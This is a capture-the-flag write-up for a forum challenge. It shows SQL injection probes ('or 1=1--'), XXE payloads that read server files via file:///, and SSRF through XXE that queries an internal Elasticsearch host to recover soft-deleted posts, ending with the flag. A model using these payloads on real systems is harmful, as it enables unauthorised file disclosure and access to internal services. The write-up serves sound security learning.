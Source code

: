 # Challenge link
URL:      [http://184.72.87.9:8013/](http://184.72.87.9:8013/) (maybe the server was shut down)

# Challenge description
This website is a forum where people can make posts, though it's so broken right now that you can probably only search them. It turns out that someone posted something top secret and later deleted it, but was it truly deleted?

# Challenge source file
Blackbox (No source)

# Difficulty
Above medium

# Approach
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/15d6d767-9590-4297-8967-8f4355818cd2)

- First I tried to input 'a' into the search box and search:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/20e906f9-3c77-45d3-bf45-5a81a912b2f1)

- Maybe the web app is vulnerable to SQLi, so I also tried to inject *' or 1=1--*, and I found that the results' order was changed:
- ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/ccd0e751-9cd9-461a-9ed8-d90121a6ed72)

- I should check with *' or 1=2--* to ensure that it was SQLi, but the results stay the same (?). Maybe the database they use is not SQL.
- If you read the results' messages, you can find some hints:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/007f8faa-8437-4774-8574-1498b4c5b90d)

- Hackerman said that he should try another way to access the db. Since I'm not as skilled as him, let's follow his idea.
- If you view-source by CTRL + U, you will see this:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/562b78a0-ec5e-4733-bba1-8ecacc74b549)

- It's a hidden path here, so let's check it. A page for posting messages appeared. Input something and send it:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/2757d2f7-8538-49f6-be6e-a0e78b20a322)

- I also checked for cookies but found nothing. This time Burp Suite is a good choice to analyze requests. I found a request that contains an XML payload:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/1be00fcb-3876-43bc-ab7c-67eae6d8fd2b)

- If this is the only way to react to the db, an XXE attack must be performed. So, let's send it to Repeater:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/0da9ae3b-08a9-4c4c-8311-29282f297a6f)

- The original payload:
  ```
  <?xml version="1.0" encoding="UTF-8" standalone="no"?><post author="CTF Participant" id="0" title="wee"><message>ew</message></post>
  ```
- I modified the payload so that I can read the file from the server:
  ```
  <?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE xxe [<!ENTITY file SYSTEM "file:///">]><post author="CTF Participant" id="0" title="wee"><message>&file;</message></post>
  ```
  Then send a request and see the result:
  ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/2cbe6e68-7b62-4ab4-a73b-163bfe71ef37)

- Successfully in reading files, now attack phases.
# Problem-solving
  ## Find the type of database
  - Because they use a db and I don't know what type of db they used, I should take a look at the source file. First with the challenge source file (used file path: file:///JustGoAround/src/main/resources/):
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/465dc83b-e273-4403-b5c6-46ae238a1fd9)

  - Usually, *application.properties* is a file that contains the data about server, db version, ... so I read it:
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/b210a267-90a3-42d6-9931-f43545f813db)

    ```
    spring.datasource.url=http://${ELASTIC_HOST:db}:9200
    ```
    
  - According to the information, the server uses something called *spring* and *Elastic*. Since I don't know anything about it, let's search.

  ## Information gathering
  - When I search Google, I found these two useful articles:
    [Spring Framework](https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/overview.html)
    [Elasticsearch](https://logz.io/blog/elasticsearch-tutorial/)
    
  - Looks like we have nothing to do with the framework, the remaining one is Elasticsearch. According to the article, it is a NoSQL database. It's more interesting for you to know that it has a feature called *soft delete*. It means that the deleted records still remain in the database but you cannot see it normally.
    [Soft delete in Elasticsearch](https://www.elastic.co/guide/en/elasticsearch/reference/current/index-modules-history-retention.html)

  - The key is here. We know that the admin deleted the flag from the database, but maybe it was just a soft delete. Maybe, the record is still in the database, and I need to access the database. But how?

  ## Accessing database
  - There is no way that we can access the db from the front end, the only way is access via the server. The good news is that XXE not only accesses local server files but also can perform HTTP requests from inside it. I cannot access the db, but if I am the admin, why can't I?
  ## Server Side Request Forgery (SSRF) attack
  - The first thing that appeared in my mind was to fake a request and send it to the database. This can be achieved by sending an HTTP request via XXE attack. Because this request is from the server, the database "trusts" it and accept the request.
  - I changed the payload to perform an SSRF attack and sent it via Repeater:
    ```
    <?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE xxe [<!ENTITY file SYSTEM "http://db:9200">]><post author="CTF Participant" id="0" title="wee"><message>&file;</message></post>
    ```
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/ecf0fc25-5641-4af0-8edb-6e951269a8ca)

  - It works!!! The reason for HTTP://db:9200/ is according to *application.properties* as I mentioned above:
    ```
    spring.datasource.url=http://${ELASTIC_HOST:db}:9200
    ```
    The *${ELASTIC_HOST:db}* part means that by default, the hostname would be *db* if *ELASTIC_HOST* was not implemented by the server admin. 9200 was the port of the database for us to access.

  - The mission here is to read the deleted records. Since I didn't know the syntax of the Elasticsearch query, I asked ChatGPT. There are some queries that I used to finish the challenge:
    For listing the table names:
    ```
    http://db:9200/_cat/indices?v
    ```
    For searching the deleted records:
    ```
    http://db:9200/index_name/_doc/1
    ```
  - So my payloads are:
    ```
    <?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE xxe [<!ENTITY file SYSTEM "http://db:9200/_cat/indices?v">]><post author="CTF Participant" id="0" title="wee"><message>&file;</message></post>
    ```
    Result:
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/ec74a701-52f9-4f4f-861d-2a18c960792d)

    There is a table indexed as 'posts' and has 3 docs.deleted, so the flag must be in here.
    ```
    <?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE xxe [<!ENTITY file SYSTEM "http://db:9200/posts/_doc/1">]><post author="CTF Participant" id="0" title="wee"><message>&file;</message></post>
    ```
    Result:
    ![image](https://github.com/NoSpaceAvailable/SquareCTF/assets/143888307/12c9ede5-914f-4660-ab2d-39d20e99e161)

  - Flag: flag{tHISiSapRIVATEpOSTdONTlOOK}

  - Note: Don't worry if you spend hours getting stuck with the server's files. I brute-forced all the files inside it before thinking that there is another way to do this challenge :))))
